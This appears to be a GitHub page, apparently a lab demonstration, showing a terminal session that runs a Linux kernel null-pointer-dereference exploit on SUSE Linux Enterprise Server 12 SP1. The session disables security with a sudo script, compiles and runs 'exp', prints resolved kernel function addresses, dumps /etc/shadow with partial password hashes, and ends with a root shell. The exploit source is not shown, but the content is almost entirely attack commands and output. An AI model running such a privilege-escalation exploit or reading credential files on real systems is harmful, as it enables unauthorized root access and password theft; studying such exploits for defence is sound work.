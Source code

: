 ```
$cat /etc/*-release
```
PRETTY_NAME="SUSE Linux Enterprise Server 12 SP1"
```
$id
```
uid=1000(jeremysp1) gid=100(users) groups=100(users)
```
$sudo sh disable_security.sh
$gcc exp.c -o exp 2>/dev/null
$../nsjail/nsjail -Mo --user 0 --group 0 --keep_caps --chroot / -- /bin/sh -i 
sh-4.2# /home/jeremysp1/null_pointer_derf/exp
```
[+] prepare_kernel_cred :ffffffff81081250
[+] commit_creds :ffffffff81080f80
[+] mmap is successfull.
[+] addr :        0
in trigger!!
at:!:16883::::::
bin:*:16765::::::
daemon:*:16765::::::
ftp:*:16765::::::
ftpsecure:!:16883::::::
games:*:16765::::::
gdm:!:16883::::::
lp:*:16765::::::
mail:*:16765::::::
man:*:16765::::::
messagebus:!:16765::::::
news:*:16765::::::
nobody:*:16765::::::
nscd:!:16765::::::
ntp:!:16883::::::
openslp:!:16765::::::
polkitd:!:16765::::::
postfix:!:16883::::::
pulse:!:16883::::::
root:$6$GfY2v.Bz1BPLFMpdu9RJeC2x95lYZnMP0:16883::::::
rpc:!:16765::::::
rtkit:!:16883::::::
scard:!:16883::::::
sshd:!:16765::::::
statd:!:16883::::::
usbmux:!:16883::::::
uucp:*:16765::::::
vnc:!:16883::::::
wwwrun:*:16765::::::
jeremysp1:$6$71vmiLA.:16883:0:99999:7:::
pesign:!:16885::::::
``` sh
sh-4.2# id
```
uid=0(root) gid=0(root) groups=0(root)


